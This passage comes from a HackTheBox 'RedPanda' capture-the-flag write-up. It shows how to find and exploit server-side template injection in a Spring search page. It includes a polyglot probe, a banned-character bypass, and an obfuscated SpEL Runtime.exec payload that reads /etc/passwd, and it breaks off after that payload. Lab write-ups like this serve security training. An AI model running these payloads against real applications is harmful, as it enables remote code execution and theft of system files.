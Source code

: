 Let's try putting in some special characters and see what happens. Searching for a `$` gives us an error, saying `Error occured: banned characters`. Seems like we're on the right path then.

Let's try to see if this is vulnerable to [template injection](https://portswigger.net/research/server-side-template-injection). Using [this page from PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), we can see that if we send `${{ '{{' }}<%[%'"}}%\.` as the name and we get an error back, it means template injection will likely work. So let's try it.

![SSTI Test](/assets/images/HackTheBox/RedPanda/SSTI_test.png)

And we got back an error. Good. The next thing we have to do is figure out which template engine is being used.

Looking around the [Spring website](https://spring.io/projects/spring-boot), we can see that Spring is a Java framework, so let's take a look at [the Java section of that PayloadsAllTheThings page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java). Trying `${7*7}` tells us that we have a banned character, so following the recommendations, we can try `#{7*7}` next. This works, but there are some weird characters also included in the output. Trying `*{7*7}` seems to work much better. The response tells us that `You searched for: 49`.

Next let's try to get `/etc/passwd`. Sending just `*{T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}` gets back `Process[pid=3573, exitValue=&quot;not exited&quot;]`. Not exactly what we're looking for, but it does seem like it did something. Running the other command

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
